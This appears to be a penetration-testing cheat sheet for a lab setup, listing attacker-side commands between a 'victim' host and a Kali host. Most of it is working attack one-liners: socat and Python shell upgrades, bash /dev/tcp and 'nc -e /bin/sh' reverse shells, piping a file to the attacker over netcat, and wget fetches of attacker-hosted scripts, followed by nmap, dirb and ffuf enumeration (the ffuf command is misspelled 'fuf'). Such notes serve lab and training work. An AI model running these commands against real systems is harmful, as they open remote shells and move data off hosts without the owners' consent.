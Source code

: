 > Victim host 10.10.10.77 and Kali host 10.10.10.10

## Useful Commands

### Create web server

#### With Python

```
python3 -m http.server 8888
``` 

```
python -m SimpleHTTPServer 8888
```

### Upgrade reverse shell

#### With Socat

*Victim:* 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
*Kali:*
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

#### With Python

*Victim:* 
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

### Send files

#### With netcat

*Victim:*
```
cat file.txt | nc -q 0 10.10.10.10 4444
```

*Kali:*
```
nc -lvp 4444 > file.txt
```

#### With web server

*Kali:*
```
python3 -m http.server 8888 
```

```
python -m SimpleHTTPServer 8888
```

*Victim:* 
```
wget http://10.10.10.10:8888/something.sh -O something.sh
```

### Reverse shells

#### With bash

```
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

#### With netcat

```
nc -e /bin/sh 10.10.10.10 4444
```

#### Listener

```
nc -lvp 4444
```

## Enumeration

#### Nmap

TCP Scan:

```
nmap -sV -sC -p- 10.10.10.77
```

UDP Scan:

```
nmap -sU -sV -p- 10.10.10.77
```

### If Web Server

#### dirb

Quick directory busting

```
dirb http://10.10.10.77/
```

#### fuff

VHOST Discovery

```
fuf -w subdomains-top1million-110000.txt -u https://10.10.10.10/ -H "Host:FUZZ.10.10.10.10"
```

## Privilege Escalation

## Reverse Engineering

## Some Scripts

## References
